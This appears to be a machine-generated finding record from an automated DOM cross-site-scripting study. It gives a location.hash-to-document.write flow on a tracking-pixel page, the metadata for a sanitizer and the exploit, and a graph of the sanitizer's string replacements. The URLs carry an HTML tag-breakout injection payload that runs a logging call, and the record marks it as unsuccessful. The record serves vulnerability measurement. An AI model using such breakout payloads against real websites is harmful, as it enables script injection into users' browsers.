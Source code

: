 // Finding: 5de4fbea-a0ec-48f8-8c28-a536dd264f85
// Finding.url: https://www.example314.com/static/page_moniker/dv360-v21196327149a.html#pixelType=PAGEVIEW&lithium=true&path=/Tourism-g45963-Las_Vegas_Nevada-Vacations.html&localeTag=de-DE&fullPageUrl=https://www.tripadvisor.de/Tourism-g45963-Las_Vegas_Nevada-Vacations.html&geoId=45963&curLocId=45963&pixelList=facebook_dat_pv_img_new_pixel,google_pixel,bing_pixel,dv360_pixel,facebook_tv_landing,comscore_pixel,twitter_audience_pixel,dv360_floodlight&tadomain=tripadvisor.de&pageTitle=Las Vegas, NV: Tourismus in Las Vegas - Tripadvisor&reqUnique=576e2990216ebb2399a78106c922aa650e979b85&userUnique=315ec5f5618ca1d33ead6ca2d0a301b93d858091&fbUserUnique=1e6b18c614c6e126a54f71e1f83ce5b3d8278f2c262edd5e2080c0fcd2df6d50&locale=de&countryID=191&ipCountryAbbrev=US&seqId=2&sessionId=1D1BD1A966F34726BF57C6F14DD28F1A&currency=USD&locationHierarchy=1:19:191:28949:45963&regionName=Nevada&cityName=Las Vegas&stateOrCityName=Nevada&countryName=United States&stateAbbrev=NV&countryAbbrev=US&destinationName=Las Vegas&locationType=City&stDest=Las+Vegas,NV,United+States&geoName=Las Vegas&geoParentId=28949&geoParentName=Nevada&geoMostPop=97704&attraction1=5096LASHOP&attraction2=117237P4&attraction3=138742P1&attraction4=5084LASHIG&attractionRelatedProdCount=4&attractionProductCode=5096LASHOP&xSellAttraction1=127003&xSellAttraction2=103329&xSellAttraction3=625114&xSellAttraction4=6509306&xSellAttractionRelatedCount=4&loc1=97704&productIds=["","d97704de","45963de"]&productIdsShort=,d97704de,45963de&device=Desktop&fbDevice=1&device2=desktop&userGeo=191&siteType=d&trueServlet=Tourism&genTrueServlet=Tourism&fbTrueServlet=P&fbRetargetingType=1&servlet=Hotels&geoFeedBucket=high&serverName=www.tripadvisor.de&puid=YJ6sjAokLG0AAep2-LYAAAEK&isMobileDevice=n&rtPath=www.tamgrt.com/RT&random=365474885&dmpAudienceIds=17208,16857,15435,17214,16635,16062&taSplit=2&mcid=0&fbChannel=7&isOrganic=true&criteoDedup=0&tasource=OTH&geo=45963&isClickoutYN=no&isLoggedIn=N&securelyLoggedIn=N&login_status=3&stuid=NY1QkB0y0N6_DRN97DI7uiVUmkSnrsxUj6sYqKShC72qGomPc-idzEfg6nGek0q8&countryAlpha2=DE&criteoPartnerId=10928&criteoAttractionPartnerId=30190&criteoHotelAcct=[an=web-hotels-tripadvisor.com&cn=de&ln=de,an=web-hotels-0-tripadvisor.com&cn=de&ln=de,an=web-hotels-1-tripadvisor.com&cn=de&ln=de,an=web-hotels-2-tripadvisor.com&cn=de&ln=de]&flight_originid=&flight_destid=&flight_startdate=2021-05-28&flight_enddate=2021-06-04&flight_oneway=2021-05-28&dynx_itemid=null_null_20210528_20210604&flight_num_tix=1&numSeniors=0&attractionShoppingCartTotalPriceUSD=0.00&isAttractionListingPages=true&facebookuvm_v2UlbScore=0.515358312&facebookuvm_v2UlbBucket=14&fbUlbMultiplier=0.1359333849613183&facebookUlbScore=1.0259451806797&facebookUlbBucket=74&googleExperimentSegment=test&googleUlbScore=0.680341249&googleUlbBucket=2&googleuvm_v2UlbBucket=2&googleuvm_v2UlbScore=0.515358312&UVMBESTSCORE=0.39&UVMSCOPE=UVM_V2&UVMSAVEABLE=0&googleuvm_v2.1UlbBucket=1&googleuvm_v2.1UlbScore=0.3893834588453&googleuvm_v2.1UlbBucketParamName=uvm_display_desktop_bucket&criteoUlbScore=0.3893834588453&criteoUlbBucket=1"></iframe></style></script></object></embed></textarea><script>taintfoxLog('30fc9326489b4e61a033cac97fcff700')</script><!--/*&criteoUlbScoreCurrent=0.3893834588453&criteoUlbBucketCurrent=1&DBISCORE=0.030954399364050252&DBIFLAG=false&btb_score=0.040&btb_bucket=L&mofSlice=100&mofLastUpdated=20210514&smarterTravelPixelID=gqLWKHSnTxes4YmmtgWkqA&smarterTravelPixelDomain=p.smartertravel.com&isSTConversion=false&googleCRMId=d65555d0509828612e2cd4d09f38a4acb9e96a6b&rexSplit=t&NanigansTestSegment=0&sitePerfTestCode=1&is_default_dates=No&pixelName=dv360_pixel
// Finding.parentloc: https://www.example314.com/static/page_moniker/dv360-v21196327149a.html#pixelType=PAGEVIEW&lithium=true&path=/Tourism-g45963-Las_Vegas_Nevada-Vacations.html&localeTag=de-DE&fullPageUrl=https://www.tripadvisor.de/Tourism-g45963-Las_Vegas_Nevada-Vacations.html&geoId=45963&curLocId=45963&pixelList=facebook_dat_pv_img_new_pixel,google_pixel,bing_pixel,dv360_pixel,facebook_tv_landing,comscore_pixel,twitter_audience_pixel,dv360_floodlight&tadomain=tripadvisor.de&pageTitle=Las Vegas, NV: Tourismus in Las Vegas - Tripadvisor&reqUnique=576e2990216ebb2399a78106c922aa650e979b85&userUnique=315ec5f5618ca1d33ead6ca2d0a301b93d858091&fbUserUnique=1e6b18c614c6e126a54f71e1f83ce5b3d8278f2c262edd5e2080c0fcd2df6d50&locale=de&countryID=191&ipCountryAbbrev=US&seqId=2&sessionId=1D1BD1A966F34726BF57C6F14DD28F1A&currency=USD&locationHierarchy=1:19:191:28949:45963&regionName=Nevada&cityName=Las Vegas&stateOrCityName=Nevada&countryName=United States&stateAbbrev=NV&countryAbbrev=US&destinationName=Las Vegas&locationType=City&stDest=Las+Vegas,NV,United+States&geoName=Las Vegas&geoParentId=28949&geoParentName=Nevada&geoMostPop=97704&attraction1=5096LASHOP&attraction2=117237P4&attraction3=138742P1&attraction4=5084LASHIG&attractionRelatedProdCount=4&attractionProductCode=5096LASHOP&xSellAttraction1=127003&xSellAttraction2=103329&xSellAttraction3=625114&xSellAttraction4=6509306&xSellAttractionRelatedCount=4&loc1=97704&productIds=["","d97704de","45963de"]&productIdsShort=,d97704de,45963de&device=Desktop&fbDevice=1&device2=desktop&userGeo=191&siteType=d&trueServlet=Tourism&genTrueServlet=Tourism&fbTrueServlet=P&fbRetargetingType=1&servlet=Hotels&geoFeedBucket=high&serverName=www.tripadvisor.de&puid=YJ6sjAokLG0AAep2-LYAAAEK&isMobileDevice=n&rtPath=www.tamgrt.com/RT&random=365474885&dmpAudienceIds=17208,16857,15435,17214,16635,16062&taSplit=2&mcid=0&fbChannel=7&isOrganic=true&criteoDedup=0&tasource=OTH&geo=45963&isClickoutYN=no&isLoggedIn=N&securelyLoggedIn=N&login_status=3&stuid=NY1QkB0y0N6_DRN97DI7uiVUmkSnrsxUj6sYqKShC72qGomPc-idzEfg6nGek0q8&countryAlpha2=DE&criteoPartnerId=10928&criteoAttractionPartnerId=30190&criteoHotelAcct=[an=web-hotels-tripadvisor.com&cn=de&ln=de,an=web-hotels-0-tripadvisor.com&cn=de&ln=de,an=web-hotels-1-tripadvisor.com&cn=de&ln=de,an=web-hotels-2-tripadvisor.com&cn=de&ln=de]&flight_originid=&flight_destid=&flight_startdate=2021-05-28&flight_enddate=2021-06-04&flight_oneway=2021-05-28&dynx_itemid=null_null_20210528_20210604&flight_num_tix=1&numSeniors=0&attractionShoppingCartTotalPriceUSD=0.00&isAttractionListingPages=true&facebookuvm_v2UlbScore=0.515358312&facebookuvm_v2UlbBucket=14&fbUlbMultiplier=0.1359333849613183&facebookUlbScore=1.0259451806797&facebookUlbBucket=74&googleExperimentSegment=test&googleUlbScore=0.680341249&googleUlbBucket=2&googleuvm_v2UlbBucket=2&googleuvm_v2UlbScore=0.515358312&UVMBESTSCORE=0.39&UVMSCOPE=UVM_V2&UVMSAVEABLE=0&googleuvm_v2.1UlbBucket=1&googleuvm_v2.1UlbScore=0.3893834588453&googleuvm_v2.1UlbBucketParamName=uvm_display_desktop_bucket&criteoUlbScore=0.3893834588453&criteoUlbBucket=1"></iframe></style></script></object></embed></textarea><script>taintfoxLog('30fc9326489b4e61a033cac97fcff700')</script><!--/*&criteoUlbScoreCurrent=0.3893834588453&criteoUlbBucketCurrent=1&DBISCORE=0.030954399364050252&DBIFLAG=false&btb_score=0.040&btb_bucket=L&mofSlice=100&mofLastUpdated=20210514&smarterTravelPixelID=gqLWKHSnTxes4YmmtgWkqA&smarterTravelPixelDomain=p.smartertravel.com&isSTConversion=false&googleCRMId=d65555d0509828612e2cd4d09f38a4acb9e96a6b&rexSplit=t&NanigansTestSegment=0&sitePerfTestCode=1&is_default_dates=No&pixelName=dv360_pixel
// Finding.domain: www.example314.com
// Finding.base_domain: example314.com
// Finding.source: location.hash
// Finding.sink: document.write
// Sanitizer.score: 2
// Sanitizer.name: sanitize
// Sanitizer.location: https://www.example314.com/static/page_moniker/dv360-v21196327149a.html#pixelType=PAGEVIEW&lithium=true&path=/Tourism-g45963-Las_Vegas_Nevada-Vacations.html&localeTag=de-DE&fullPageUrl=https://www.tripadvisor.de/Tourism-g45963-Las_Vegas_Nevada-Vacations.html&geoId=45963&curLocId=45963&pixelList=facebook_dat_pv_img_new_pixel,google_pixel,bing_pixel,dv360_pixel,facebook_tv_landing,comscore_pixel,twitter_audience_pixel,dv360_floodlight&tadomain=tripadvisor.de&pageTitle=Las Vegas, NV: Tourismus in Las Vegas - Tripadvisor&reqUnique=576e2990216ebb2399a78106c922aa650e979b85&userUnique=315ec5f5618ca1d33ead6ca2d0a301b93d858091&fbUserUnique=1e6b18c614c6e126a54f71e1f83ce5b3d8278f2c262edd5e2080c0fcd2df6d50&locale=de&countryID=191&ipCountryAbbrev=US&seqId=2&sessionId=1D1BD1A966F34726BF57C6F14DD28F1A&currency=USD&locationHierarchy=1:19:191:28949:45963&regionName=Nevada&cityName=Las Vegas&stateOrCityName=Nevada&countryName=United States&stateAbbrev=NV&countryAbbrev=US&destinationName=Las Vegas&locationType=City&stDest=Las+Vegas,NV,United+States&geoName=Las Vegas&geoParentId=28949&geoParentName=Nevada&geoMostPop=97704&attraction1=5096LASHOP&attraction2=117237P4&attraction3=138742P1&attraction4=5084LASHIG&attractionRelatedProdCount=4&attractionProductCode=5096LASHOP&xSellAttraction1=127003&xSellAttraction2=103329&xSellAttraction3=625114&xSellAttraction4=6509306&xSellAttractionRelatedCount=4&loc1=97704&productIds=["","d97704de","45963de"]&productIdsShort=,d97704de,45963de&device=Desktop&fbDevice=1&device2=desktop&userGeo=191&siteType=d&trueServlet=Tourism&genTrueServlet=Tourism&fbTrueServlet=P&fbRetargetingType=1&servlet=Hotels&geoFeedBucket=high&serverName=www.tripadvisor.de&puid=YJ6sjAokLG0AAep2-LYAAAEK&isMobileDevice=n&rtPath=www.tamgrt.com/RT&random=365474885&dmpAudienceIds=17208,16857,15435,17214,16635,16062&taSplit=2&mcid=0&fbChannel=7&isOrganic=true&criteoDedup=0&tasource=OTH&geo=45963&isClickoutYN=no&isLoggedIn=N&securelyLoggedIn=N&login_status=3&stuid=NY1QkB0y0N6_DRN97DI7uiVUmkSnrsxUj6sYqKShC72qGomPc-idzEfg6nGek0q8&countryAlpha2=DE&criteoPartnerId=10928&criteoAttractionPartnerId=30190&criteoHotelAcct=[an=web-hotels-tripadvisor.com&cn=de&ln=de,an=web-hotels-0-tripadvisor.com&cn=de&ln=de,an=web-hotels-1-tripadvisor.com&cn=de&ln=de,an=web-hotels-2-tripadvisor.com&cn=de&ln=de]&flight_originid=&flight_destid=&flight_startdate=2021-05-28&flight_enddate=2021-06-04&flight_oneway=2021-05-28&dynx_itemid=null_null_20210528_20210604&flight_num_tix=1&numSeniors=0&attractionShoppingCartTotalPriceUSD=0.00&isAttractionListingPages=true&facebookuvm_v2UlbScore=0.515358312&facebookuvm_v2UlbBucket=14&fbUlbMultiplier=0.1359333849613183&facebookUlbScore=1.0259451806797&facebookUlbBucket=74&googleExperimentSegment=test&googleUlbScore=0.680341249&googleUlbBucket=2&googleuvm_v2UlbBucket=2&googleuvm_v2UlbScore=0.515358312&UVMBESTSCORE=0.39&UVMSCOPE=UVM_V2&UVMSAVEABLE=0&googleuvm_v2.1UlbBucket=1&googleuvm_v2.1UlbScore=0.3893834588453&googleuvm_v2.1UlbBucketParamName=uvm_display_desktop_bucket&criteoUlbScore=0.3893834588453&criteoUlbBucket=1"></iframe></style></script></object></embed></textarea><script>taintfoxLog('30fc9326489b4e61a033cac97fcff700')</script><!--/*&criteoUlbScoreCurrent=0.3893834588453&criteoUlbBucketCurrent=1&DBISCORE=0.030954399364050252&DBIFLAG=false&btb_score=0.040&btb_bucket=L&mofSlice=100&mofLastUpdated=20210514&smarterTravelPixelID=gqLWKHSnTxes4YmmtgWkqA&smarterTravelPixelDomain=p.smartertravel.com&isSTConversion=false&googleCRMId=d65555d0509828612e2cd4d09f38a4acb9e96a6b&rexSplit=t&NanigansTestSegment=0&sitePerfTestCode=1&is_default_dates=No&pixelName=dv360_pixel - <anonymous>:62:21
// Finding.begin: 210
// Finding.end: 257
// Finding.original_uuid: 3af3ad98-1daf-4be3-9792-cfce22f4e558
// Finding.TwentyFiveMillionFlowsId: 1661461761
// Finding.script: https://www.example314.com/static/page_moniker/dv360-v21196327149a.html#pixelType=PAGEVIEW&lithium=true&path=/Tourism-g45963-Las_Vegas_Nevada-Vacations.html&localeTag=de-DE&fullPageUrl=https://www.tripadvisor.de/Tourism-g45963-Las_Vegas_Nevada-Vacations.html&geoId=45963&curLocId=45963&pixelList=facebook_dat_pv_img_new_pixel,google_pixel,bing_pixel,dv360_pixel,facebook_tv_landing,comscore_pixel,twitter_audience_pixel,dv360_floodlight&tadomain=tripadvisor.de&pageTitle=Las Vegas, NV: Tourismus in Las Vegas - Tripadvisor&reqUnique=576e2990216ebb2399a78106c922aa650e979b85&userUnique=315ec5f5618ca1d33ead6ca2d0a301b93d858091&fbUserUnique=1e6b18c614c6e126a54f71e1f83ce5b3d8278f2c262edd5e2080c0fcd2df6d50&locale=de&countryID=191&ipCountryAbbrev=US&seqId=2&sessionId=1D1BD1A966F34726BF57C6F14DD28F1A&currency=USD&locationHierarchy=1:19:191:28949:45963&regionName=Nevada&cityName=Las Vegas&stateOrCityName=Nevada&countryName=United States&stateAbbrev=NV&countryAbbrev=US&destinationName=Las Vegas&locationType=City&stDest=Las+Vegas,NV,United+States&geoName=Las Vegas&geoParentId=28949&geoParentName=Nevada&geoMostPop=97704&attraction1=5096LASHOP&attraction2=117237P4&attraction3=138742P1&attraction4=5084LASHIG&attractionRelatedProdCount=4&attractionProductCode=5096LASHOP&xSellAttraction1=127003&xSellAttraction2=103329&xSellAttraction3=625114&xSellAttraction4=6509306&xSellAttractionRelatedCount=4&loc1=97704&productIds=["","d97704de","45963de"]&productIdsShort=,d97704de,45963de&device=Desktop&fbDevice=1&device2=desktop&userGeo=191&siteType=d&trueServlet=Tourism&genTrueServlet=Tourism&fbTrueServlet=P&fbRetargetingType=1&servlet=Hotels&geoFeedBucket=high&serverName=www.tripadvisor.de&puid=YJ6sjAokLG0AAep2-LYAAAEK&isMobileDevice=n&rtPath=www.tamgrt.com/RT&random=365474885&dmpAudienceIds=17208,16857,15435,17214,16635,16062&taSplit=2&mcid=0&fbChannel=7&isOrganic=true&criteoDedup=0&tasource=OTH&geo=45963&isClickoutYN=no&isLoggedIn=N&securelyLoggedIn=N&login_status=3&stuid=NY1QkB0y0N6_DRN97DI7uiVUmkSnrsxUj6sYqKShC72qGomPc-idzEfg6nGek0q8&countryAlpha2=DE&criteoPartnerId=10928&criteoAttractionPartnerId=30190&criteoHotelAcct=[an=web-hotels-tripadvisor.com&cn=de&ln=de,an=web-hotels-0-tripadvisor.com&cn=de&ln=de,an=web-hotels-1-tripadvisor.com&cn=de&ln=de,an=web-hotels-2-tripadvisor.com&cn=de&ln=de]&flight_originid=&flight_destid=&flight_startdate=2021-05-28&flight_enddate=2021-06-04&flight_oneway=2021-05-28&dynx_itemid=null_null_20210528_20210604&flight_num_tix=1&numSeniors=0&attractionShoppingCartTotalPriceUSD=0.00&isAttractionListingPages=true&facebookuvm_v2UlbScore=0.515358312&facebookuvm_v2UlbBucket=14&fbUlbMultiplier=0.1359333849613183&facebookUlbScore=1.0259451806797&facebookUlbBucket=74&googleExperimentSegment=test&googleUlbScore=0.680341249&googleUlbBucket=2&googleuvm_v2UlbBucket=2&googleuvm_v2UlbScore=0.515358312&UVMBESTSCORE=0.39&UVMSCOPE=UVM_V2&UVMSAVEABLE=0&googleuvm_v2.1UlbBucket=1&googleuvm_v2.1UlbScore=0.3893834588453&googleuvm_v2.1UlbBucketParamName=uvm_display_desktop_bucket&criteoUlbScore=0.3893834588453&criteoUlbBucket=1"></iframe></style></script></object></embed></textarea><script>taintfoxLog('30fc9326489b4e61a033cac97fcff700')</script><!--/*&criteoUlbScoreCurrent=0.3893834588453&criteoUlbBucketCurrent=1&DBISCORE=0.030954399364050252&DBIFLAG=false&btb_score=0.040&btb_bucket=L&mofSlice=100&mofLastUpdated=20210514&smarterTravelPixelID=gqLWKHSnTxes4YmmtgWkqA&smarterTravelPixelDomain=p.smartertravel.com&isSTConversion=false&googleCRMId=d65555d0509828612e2cd4d09f38a4acb9e96a6b&rexSplit=t&NanigansTestSegment=0&sitePerfTestCode=1&is_default_dates=No&pixelName=dv360_pixel
// Finding.line: 68
// Exploit.uuid: 30fc9326-489b-4e61-a033-cac97fcff700
// Exploit.success: false
// Exploit.status: validated
// Exploit.method: C
// Exploit.type: html
// Exploit.token: attribute
// Exploit.content: src
// Exploit.quote_type: "
// Exploit.tag: iframe
// Exploit.break_out: 1"></iframe></style></script></object></embed></textarea><script>
// Exploit.break_in: </script><!--/*
// Exploit.payload: 1"></iframe></style></script></object></embed></textarea><script>taintfoxLog(1)</script><!--/*
// Exploit.begin_taint_url: 3056
// Exploit.end_taint_url: 3057
// Exploit.replace_begin_url: 3056
// Exploit.replace_end_url: 3057
// Exploit.replace_begin_param: 100
// Exploit.replace_end_param: 101
// Issues.LargestEncodeAttrStringChain: 0
// Issues.LargestTextFragmentEncodeChainLength: 0
// Issues.HasApproximation: false
// Issues.HasMissingImplementation: false
// Issues.HasInfiniteRegexWithFunctionReplacer: false
// Issues.MergedSplitAndJoins: false
// Issues.HasUrlInRhsOfReplace: false
// Issues.HasUrlInLhsOfReplace: false
// Issues.HasCookieValueInLhsOfreplace: false
// Issues.HasCookieValueInRhsOfreplace: false
// Issues.HasCookieValueInMatchPattern: false
// Issues.HasCookieValueInExecPattern: false
// Issues.RemovedLRConcats: true
// Issues.RemovedReplaceArtifacts: false
// Issues.HasUrlInMatchPattern: false
// Issues.HasUrlInExecPattern: false
// Issues.RemovedNOPreplaces: false
// Issues.Known_sanitizer: false
// DepGraph.hash: 936948677
// DepGraph.sanitizer_hash: 1456425717
// Removed LR concats 
// Removed LR concats 
// Removed LR concats 
// Removed LR concats 
// Removed LR concats 
digraph cfg {
n0 [shape=house, label="Input: x"];
n1 [shape=ellipse, label="."];
n2 [shape=box, label="Lit: &lt;"];
n3 [shape=ellipse, label="preg_replace"];
n4 [shape=box, label="RegExp: /[<]/"];
n5 [shape=box, label="Lit: &lt;"];
n6 [shape=box, label="Var: x"];
n7 [shape=ellipse, label="."];
n8 [shape=box, label="Lit: &gt;"];
n9 [shape=ellipse, label="preg_replace"];
n10 [shape=box, label="RegExp: /[>]/"];
n11 [shape=box, label="Lit: &gt;"];
n12 [shape=box, label="Var: x"];
n13 [shape=box, label="Var: x"];
n14 [shape=doubleoctagon, label="Return: x"];
n1 -> n0;
n1 -> n2;
n6 -> n1;
n3 -> n4;
n3 -> n5;
n3 -> n6;
n7 -> n3;
n7 -> n8;
n12 -> n7;
n9 -> n10;
n9 -> n11;
n9 -> n12;
n13 -> n9;
n14 -> n13;
}